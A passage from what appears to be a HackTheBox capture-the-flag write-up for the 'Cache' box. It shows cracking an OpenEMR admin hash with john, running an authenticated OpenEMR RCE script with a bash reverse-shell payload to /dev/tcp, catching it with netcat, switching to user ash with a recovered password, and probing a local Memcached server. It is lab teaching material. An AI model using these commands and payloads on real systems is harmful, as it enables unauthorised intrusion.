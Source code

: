 `john -w=/usr/share/wordlists/rockyou.txt hash`
```
xxxxxx          openemr_admin
```

### creds

`openemr_admin:xxxxxx`

## User Authenticated RCE

### using script [OpenEMR < 5.0.1 - (Authenticated) RCE](https://github.com/x00tex/hackTheBox/blob/main/Boxes/linux/Retired/cache/exploit/openEMR-5.0.1-Authenticated_RCE.py)

*ippsec [video](https://www.youtube.com/watch?v=kfLU5-Eeyhw&t=3360s)*

`python openEMR-RCE.py http://hms.htb -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/tun0/1337 0>&1'`

* this command specified in the Exploit itself
* it excute reverse shell and connect back to netcat on specified port
	
	`nc -nvlp 1337`

* I got an `www-data@cache:~$` shell

#### enumeration www-data

* `/etc/passwd` reviles that there is a use ash 
* use ash creds to `su` to user `ash:H@v3_fun`
* got  shell as ash user
* user ash have user flag

	  ash@cache:~$ cat user.txt

# Local Enumeration

* check network services

	  ash@cache:~$ netstat -tnlp
	  Proto Recv-Q Send-Q Local Address           Foreign Address         State
	  tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN

* search for port `11211` found out that this is a Memcached server that running locally
* searching about Memcache on google i endup on a [hackingarticles.in](https://www.hackingarticles.in/penetration-testing-on-memcached-server/) blog post .

## dump Memcache data

* I use telnet to connect to Memcached server from ash user shell

	`ash@cache:~$ telnet 127.0.0.1 11211`

	  Trying 127.0.0.1...
	  Connected to 127.0.0.1.
